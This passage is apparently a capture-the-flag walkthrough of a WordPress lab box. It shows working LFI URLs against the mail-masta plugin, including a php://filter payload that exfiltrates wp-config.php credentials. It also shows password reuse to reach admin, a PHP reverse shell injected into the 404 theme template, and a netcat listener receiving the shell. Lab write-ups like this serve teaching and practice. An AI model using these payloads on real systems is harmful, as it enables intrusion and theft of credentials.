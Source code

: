 It identified 2 plugins. I search for the first one, mail-masta and found that it is [vulnerable to Local File Inclusion](https://www.exploit-db.com/exploits/40290). According to Exploit Database, there are multiple files in the plugin that include a file directly from the request. 

```php
include($_GET['pl']);
```

It's pretty easy to test. The following URL will load the /etc/passwd file in the browser:   http://target/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

From here, I tried loading the wp-config.php file. Trying to access it directly would not work because the PHP code is executed and not returned:  http://target/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/wordpress/wp-config.php

But with PHP filters, I can convert the file content to base64:  http://target/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

I could then decode the returned base64 to the the PHP code.

```bash
echo -n "Base64 content on the page" | base64 -d
```

This gave me the username and password used to connect to the database. 
```php
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'PASSWORD' );
```

The DB username is elyana. Maybe they reuse passwords. I tried the found passwords in the Wordpress site. It worked, and I was connected as an admin account.

With its Theme Editor, Wordpress allow administrators to modify theme files from the user interface. We can use this feature to inject PHP code that will be executed on the server. I used this to inject a PHP reverse shell in the 404 template. 

I went to the [404 Template in the Theme Editor](http://10.10.26.14/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty) (I had to use the IP in the URL, not the host name I created). I injected the reverse shell found in `/usr/share/webshells/php/php-reverse-shell.php` and made sure to change the $ip and $port variables. I then click on Update File to publish the changes. 

I started a netcat listener on my machine and navigated to a [page that doesn't exist](http://target/wordpress/index.php/aaa). I then got a connection in my netcat listener.

```bash
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.26.14 44278
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:23:32 up 22 min,  0 users,  load average: 0.02, 0.03, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```
